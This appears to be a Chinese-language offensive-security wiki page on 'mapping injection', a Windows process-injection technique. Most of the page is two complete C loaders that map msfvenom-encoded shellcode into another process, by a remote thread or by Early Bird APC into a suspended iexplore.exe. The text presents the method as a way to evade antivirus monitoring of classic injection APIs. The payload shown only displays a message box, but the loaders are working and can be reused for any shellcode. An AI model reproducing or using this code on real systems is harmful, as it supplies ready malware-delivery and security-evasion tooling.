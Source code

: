 ```yaml
---
description: Mapping Injection
---
```


# Mapping Injection

## 简介

映射注入是一种内存注入技术，可以避免使用一些经典注入技术使用的API,如VirtualAllocEx,WriteProcessMemory等被杀毒软件严密监控的API，同时创建Mapping内核对象本质上属于申请一块物理内存，而申请的物理内存又能比较方便的通过系统函数直接映射到进程的虚拟内存里，这也就避免使用经典写入函数，增加了隐蔽性。

![](../.gitbook/assets/image%20%2816%29.png)

## 注入流程

1. 在注入进程创建mapping
2. 将mapping映射到注入进程虚拟地址
3. 往被映射的虚拟地址写入shellcode
4. 打开被注入进程句柄
5. 将mapping映射到被注入进程虚拟地址
6. 创建远程线程

## 代码实现

PS:CreateFileMapping存在多种用法,并非只有这一种。

```text
#include <windows.h>
#include <stdio.h>
#pragma comment (lib, "OneCore.lib")


//msfvenom -p windows/x64/messagebox -e x64/xor_dynamic -i 15 EXITFUNC=thread  -f c
unsigned char shellcode[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41\x51"
"\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x3e\x48"
"\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72\x50\x3e\x48"
"\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02"
"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x3e"
"\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48\x01\xd0\x3e\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x6f\x48\x01\xd0\x50\x3e\x8b\x48"
"\x18\x3e\x44\x8b\x40\x20\x49\x01\xd0\xe3\x5c\x48\xff\xc9\x3e"
"\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41"
"\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24"
"\x08\x45\x39\xd1\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x3e\x41\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e"
"\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41"
"\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7\xc1"
"\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e\x4c\x8d"
"\x85\x2b\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff"
"\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x48\x65\x6c\x6c\x6f"
"\x2c\x20\x66\x72\x6f\x6d\x20\x4d\x53\x46\x21\x00\x4d\x65\x73"
"\x73\x61\x67\x65\x42\x6f\x78\x00";

int main(int argc, char** argv)
{

	

	HANDLE hMapping = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(shellcode), NULL);

	LPVOID lpMapAddress = MapViewOfFile(hMapping, FILE_MAP_WRITE, 0, 0, sizeof(shellcode));

	memcpy((PVOID)lpMapAddress, shellcode, sizeof(shellcode));

	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 19752);

	LPVOID lpMapAddressRemote = MapViewOfFile2(hMapping, hProcess, 0, NULL, 0, 0, PAGE_EXECUTE_READ);

	HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)lpMapAddressRemote, NULL, 0, NULL);

	UnmapViewOfFile(lpMapAddress);
	CloseHandle(hMapping);
	return 0;
}
```

## 扩展与优化

在前面的章节中说过CreateRemoteThread这样敏感的API也会被杀毒软件重点关注，那么我们同时可以使用别的代码执行方式，比如说APC注入和Early Bird等注入技术，mapping注入技术也可以作为一种非常规的shellcode写入技术使用，我们并不用拘泥与常规的使用方式，也可以与已有技术组合出新的代码执行链。

* 与Early Bird技术组合

```text
#include <windows.h>
#include <stdio.h>
#pragma comment (lib, "OneCore.lib")


//msfvenom -p windows/x64/messagebox -e x64/xor_dynamic -i 15 EXITFUNC=thread  -f c
unsigned char shellcode[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41\x51"
"\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x3e\x48"
"\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72\x50\x3e\x48"
"\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02"
"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x3e"
"\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48\x01\xd0\x3e\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x6f\x48\x01\xd0\x50\x3e\x8b\x48"
"\x18\x3e\x44\x8b\x40\x20\x49\x01\xd0\xe3\x5c\x48\xff\xc9\x3e"
"\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41"
"\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24"
"\x08\x45\x39\xd1\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x3e\x41\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e"
"\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41"
"\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7\xc1"
"\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e\x4c\x8d"
"\x85\x2b\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff"
"\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x48\x65\x6c\x6c\x6f"
"\x2c\x20\x66\x72\x6f\x6d\x20\x4d\x53\x46\x21\x00\x4d\x65\x73"
"\x73\x61\x67\x65\x42\x6f\x78\x00";

	int main() {
		STARTUPINFO si = { 0 };
		PROCESS_INFORMATION pi = { 0 };
		si.cb = sizeof(STARTUPINFO);
		HANDLE hMapping = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(shellcode), NULL);

		LPVOID lpMapAddress = MapViewOfFile(hMapping, FILE_MAP_WRITE, 0, 0, sizeof(shellcode));

		memcpy((PVOID)lpMapAddress, shellcode, sizeof(shellcode));

		CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW, NULL, NULL, (LPSTARTUPINFOA)&si, &pi);

		LPVOID lpMapAddressRemote = MapViewOfFile2(hMapping, pi.hProcess, 0, NULL, 0, 0, PAGE_EXECUTE_READ);

		QueueUserAPC((PAPCFUNC)lpMapAddressRemote, pi.hThread, NULL);
		ResumeThread(pi.hThread);
		CloseHandle(pi.hThread);
		CloseHandle(hMapping);
		UnmapViewOfFile(lpMapAddress);
		return 0;
	}

```

![](../.gitbook/assets/image%20%2815%29.png)

* github:[https://github.com/idiotc4t/Mapping-injection](https://github.com/idiotc4t/Mapping-injection)

## LINKS

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile2" %}



